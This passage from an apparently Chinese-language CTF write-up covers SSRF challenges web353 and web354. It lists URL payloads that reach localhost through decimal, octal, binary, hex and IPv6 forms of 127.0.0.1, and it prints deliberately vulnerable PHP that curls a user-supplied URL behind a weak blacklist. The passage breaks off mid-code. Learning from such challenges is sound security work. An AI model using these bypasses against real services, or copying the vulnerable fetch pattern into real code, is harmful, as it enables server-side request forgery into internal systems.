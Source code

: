 过滤手段

```ABAP
url=http://0/flag.php 
url=http://0.0.0.0/flag.php
url=http://127.1/flag.php
url=http://2130706433/flag.php #十进制
url=http://017700000001/flag.php #八进制
url=http://0b1111111000000000000000000000001/flag.php #二进制
url=http://0x7f.0.0.1/flag.php #十六进制
url=http://0177.0.0.1/flag.php #八进制另类
url=http://localhost/flag.php
url=http://127.127.127.127/flag.php
url=http://[::]:80/flag.php #不太理解，而且貌似不行？
127。0。0。1 >>> 127.0.0.1
```



### web353

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

多过滤了几个，继续尝试上面方法



### web354

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
```